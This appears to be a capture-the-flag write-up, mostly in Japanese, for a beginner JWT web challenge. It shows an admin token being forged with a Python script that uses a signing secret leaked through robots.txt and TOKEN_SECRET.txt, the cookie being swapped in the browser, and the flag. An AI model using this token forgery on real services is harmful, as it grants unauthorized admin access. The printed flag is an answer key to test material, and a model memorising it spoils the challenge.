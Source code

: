 # JWT Learning - Web
JWTs (JSON Web Tokens) are created at login and used by backends to efficiently verify certain things (claims) about the authenticated user.
Usually these cannot be tampered with because they are cryptographically signed.
Let's learn a little about JWTs and tamper with one in a badly-written web app.
This challenge will walk you through each step.
https://beginner-jwt-learning-974780027560.us-east5.run.app

## solve

ページに沿って進んでいく

JWTが書かれている
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InNhbSIsImlzQWRtaW4iOmZhbHNlLCJpYXQiOjE3Mzg4ODc2OTQsImV4cCI6MTczODg4OTQ5NH0.KrRwMea_fXtfp-IbvFCn3Q-HiNVMitips0SVxODfGJc
```


`isAdmi:true`に変える
![](image.png)


`sam`を入力して進む
![](image-3.png)


/robots.txにアクセスするよう指示される
/TOKEN_SECRET.txtにアクセス出来そう


![](image-1.png)


/TOKEN_SECRET.txtにアクセスと秘密鍵が書かれている

![](image-4.png)

TOKEN_SECRET.txtを使って新しいJWT作成する
- isAdmin:trueにしただけでは有効期限がだめらしいので期限も設定する

新しいJWT作成(true、有効時間)
```
import jwt
import datetime

# 秘密鍵（TOKEN_SECRET.txt の内容）
secret = "fa43623fc456bf3a62ea923f4e7a009f0aeec4a0032670ed6fc90bd268e4c62c896699572b914cb15806695fcb1f6eb3141c9bc86a87cca1bda98e1429aa902b"

# JWTペイロード（有効期限を24時間に延長）
payload = {
    "username": "sam",
    "isAdmin": True,
    "iat": int(datetime.datetime.utcnow().timestamp()),  # 現在時刻
    "exp": int((datetime.datetime.utcnow() + datetime.timedelta(hours=24)).timestamp())  # 24時間後
}

# JWTの生成
new_token = jwt.encode(payload, secret, algorithm="HS256")

print("New JWT:", new_token)
```

出力
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InNhbSIsImlzQWRtaW4iOnRydWUsImlhdCI6MTc0MjY2ODQyOSwiZXhwIjoxNzQyNzU0ODI5fQ.etI9HP-Yw6nlqCJUAOFebfPkEjrxlFrIXcgFsl5MV6U
```


デベロッパーツール > アプリケーション > Cookie > 値を新しいJWTに書き換える

![](image-2.png)


## flag
`wctf{jw7_l34rn1n6_15_fun_135624154}`
